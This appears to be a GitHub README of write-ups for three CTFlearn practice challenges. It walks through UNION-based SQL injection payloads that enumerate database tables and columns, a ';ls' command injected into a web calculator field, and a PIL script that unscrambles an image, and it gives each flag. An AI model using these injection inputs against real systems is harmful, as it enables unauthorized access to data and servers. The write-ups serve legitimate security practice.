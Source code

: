 # CTFs-Writeups---CTFlearn

Inj3ction Time <br>
"I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command" <br>

"1 OR 1=1" give us a few results but nothing we are interested in. <br>
Take into account the advice we started to look for the number of colums : "1 UNION SELECT 1,2" ; "1 UNION SELECT 1,2,3" ; "1 UNION SELECT 1,2,3,4" : Bingo <br>
We then try to use "UNION SELECT 1,2,3,4 FROM information_schema.tables" but it doesn't give us any result <br>
We then try : "1 UNION SELECT table_name,2,3,4 FROM information_schema.tables" <br>
Effectively finding the following flag : "w0w_y0u_f0und_m3" <br>
We then swtich our injection to find all colums names : "1 UNION SELECT column_name,2,3,4 FROM information_schema.columns" giving us : "f0und_m3" <br>
We then use the column name and the table name we found with a UNION injection : "1 UNION SELECT f0und_m3,2,3,4 FROM w0w_y0u_f0und_m3" effectively grabbing the full flag : abctf{uni0n_1s_4_gr34t_c0mm4nd} <br>

Writed by : Cloclodudu & Asch-sys <br><br><br><br>




Calculat3 M3 <br>
Here! http://web.ctflearn.com/web7/ I forget how we were doing those calculations, but something tells me it was pretty insecure. <br>

The site display a calculator, by opening the html with f12 we are able to see that the input has a read only tag. We remove it and try to input ;ls to get the names of the files which works and get us the flag : {watch_0ut_f0r_th3_m0ng00s3} <br>

Writed by : Cloclodudu & Asch-sys <br><br><br><br>




Image Magic <br>
It looks like someone messed up my picture! Can anyone reorganize the pixels? The python module PIL (Python Imaging Library) might be useful! https://mega.nz/#!OKxByZyT!vaabCJRG5D9zAUp7drTekcA5pszu67r_TbQMtxEzqGE <br>
Update: I think whoever messed up my image took every column of pixels and put them side by side. Update: I think the width of the image was 304 before they messed with it. <br>

We use this script below : <br>
from PIL import Image as Im; <br>
import numpy as np; <br>
Im.fromarray(np.reshape(np.asarray(Im.open('out copy.jpg')), (304, -1)).T).show() <br>
We finally get this flag :  CTFlearn{cool_right?} <br>

Writed by : Cloclodudu & Asch-sys <br><br><br><br>
